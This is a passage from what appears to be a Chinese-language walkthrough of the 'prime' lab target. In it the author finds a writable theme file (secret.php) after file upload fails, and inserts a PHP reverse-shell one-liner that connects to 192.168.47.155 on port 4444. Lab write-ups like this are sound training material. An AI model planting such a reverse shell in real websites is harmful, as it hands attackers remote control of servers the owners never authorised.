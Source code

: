 ![image-20221229212231597](prime靶场/image-20221229212231597.png)

<br>

既然文件上传不行, 那么就从主题编辑入手, 依次排查所有主题文件, 寻找能够编辑(拥有写的权限)的页面, 最终发现secret.php可以编辑

![image-20221230113141576](prime靶场/image-20221230113141576.png)

<br>

在secret.php插入反弹Shell代码: `<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.47.155/4444 0>&1'");?>`
